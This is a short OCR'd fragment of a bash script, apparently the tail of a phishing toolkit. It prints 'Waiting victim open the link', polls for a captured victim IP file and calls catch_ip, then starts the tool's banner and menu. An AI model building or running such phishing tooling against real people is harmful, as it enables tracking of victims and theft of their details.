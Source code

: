 
printf "\e[1;93m[\e[0m\e[1;77m*\e[0m\e[1;93m] Waiting victim open the link ...\e[0m\n"
while [ true ]; do


if [[ -e "sites/$server/ip.txt" ]]; then
printf "\n\e[1;92m[\e[0m*\e[1;92m] IP Found!\n"
catch_ip

fi
sleep 1
done 

}
banner
dependencies
menu
